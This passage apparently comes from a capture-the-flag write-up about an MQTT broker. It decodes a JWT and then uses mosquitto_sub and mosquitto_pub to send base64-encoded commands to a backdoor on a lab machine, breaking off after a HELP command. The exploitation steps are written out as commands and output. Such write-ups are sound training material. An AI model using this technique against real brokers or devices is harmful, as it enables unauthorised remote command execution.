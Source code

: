 This is base64 encoded we can either use the cli tool "base64" or use the [CyberChef](https://cyberchef.org).

<img width="904" height="648" alt="Screenshot From 2025-09-13 13-20-29" src="https://github.com/user-attachments/assets/ef8174ae-07a0-4d26-9796-a342bf4817e9" />


~ *Image 1 : Cyberchef* 


It's a JWT token with different parameters and values from which we can easily understand that this hints that we can execute custom command on the broker. 

Here `pub_topic` specify the topic where we have can publish our command and `sub_topic` specify the topic where we can subscribe to get the output of the command.

### Exploitation 

Let's first subscribe to the topic - 

```bash
mosquitto_sub -h 10.10.111.216 -t 'U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub' -v
```

Now we can try to send a command to the pub_topic - 

```bash
mosquitto_pub -h 10.10.111.216 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -msg "whoami"
```

This is what we recieved from the topic we subscribed to :

```bash
U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=
```

It is base64 encoded so let's decode and see what we got -

```
echo "SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=" | base64 -d

Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
```

It is says the format is not valid and the valid format is -

```
{"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"}
```

and also it should be base64 encoded.

From Image 1 we can see we haev 3 possible commands - CMD, SYS, HELP

first we can try to execute HELP command to get some info 

```
mosquitto_pub -h 10.10.15.102 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m "eyJpZCI6ICIwMCIsICJjbWQiOiAiSEVMUCIsICJhcmciOiAiIn0="
```
